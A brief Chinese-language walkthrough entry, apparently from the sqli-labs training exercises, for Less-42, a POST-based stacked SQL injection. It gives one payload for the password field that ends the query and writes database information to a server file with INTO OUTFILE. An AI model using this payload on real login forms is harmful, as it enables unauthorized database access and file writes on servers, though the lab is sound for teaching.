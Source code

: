 ![](file/image_D-rS35Jsm5.png)

### Less-42：POST - Error based - string - stacked

**注入类型**

堆叠注入

**闭合方式**

id='\$id'

```sql
//密码框处存在堆叠注入
password=admin';select 'Less-42',database(),3 into outfile "C:\\phpStudy\\MySQL\\data\\dump.txt" #
```

![](file/image_krY6wkIFng.png)
